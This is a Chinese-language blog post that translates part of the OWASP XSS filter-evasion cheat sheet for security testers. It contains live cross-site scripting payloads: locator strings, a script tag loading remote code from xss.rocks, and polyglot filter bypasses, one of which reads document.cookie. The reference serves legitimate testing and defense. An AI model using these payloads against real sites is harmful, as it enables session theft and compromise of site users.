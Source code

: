 ```yaml
---
layout: post
title:  "XSS过滤绕过速查表"
categories: 网络安全
tags:  XSS 
---
```


* content
{:toc}

## 1.介绍
这篇文章的主要目的是给专业安全测试人员提供一份跨站脚本漏洞检测指南。文章的初始内容是由RSnake提供给 OWASP，内容基于他的XSS备忘录:http://ha.ckers.org/xss.html。目前这个网页已经重定向到OWASP网站，将由OWASP维护和完善它。OWASP 的第一个防御备忘录项目：XSS (Cross Site Scripting)Prevention Cheat Sheet 灵感来源于 RSnake 的 XSS Cheat Sheet，所以我们对他给予我们的启发表示感谢。我们想要去创建短小简单的参考给开发者以便帮助他们预防 XSS漏洞，而不是简单的告诉他们需要使用复杂的方法构建应用来预防各种千奇百怪的攻击，这也是OWASP 备忘录系列诞生的原因。





## 2.测试
这份备忘录是为那些已经理解XSS攻击，但是想要了解关于绕过过滤器方法之间细微差别的人准备的。

请注意大部分的跨站脚本攻击向量已经在其代码下方给出的浏览器列表中进行测试。

2.1.  XSS定位器
在大多数存在漏洞且不需要特定XSS攻击代码的地方插入下列代码会弹出包含“XSS”字样的对话框。使用URL编码器来对整个代码进行编码。小技巧：如果你时间很紧想要快速检查页面，通常只要插入“<任意文本>”标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：

‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;

alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–

></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

2.2.  XSS定位器（短）
如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在<XSS 或&lt;XSS字样来确认是否存在漏洞

”;!–”<XSS>=&{()}

2.3.  无过滤绕过
这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：

<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

2.4.  利用多语言进行过滤绕过
‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>

<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>

<script>alert(document.cookie)</script>”>

<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
